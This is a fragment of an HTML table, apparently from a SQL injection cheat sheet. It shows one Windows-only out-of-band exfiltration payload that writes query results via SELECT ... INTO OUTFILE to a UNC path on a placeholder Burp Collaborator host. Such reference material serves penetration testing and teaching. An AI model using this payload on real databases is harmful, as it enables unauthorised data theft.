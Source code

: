         </th>
        <td>
            The following technique works on Windows only: <br />
            <code>SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code>
        </td>
    </tr>
</table>
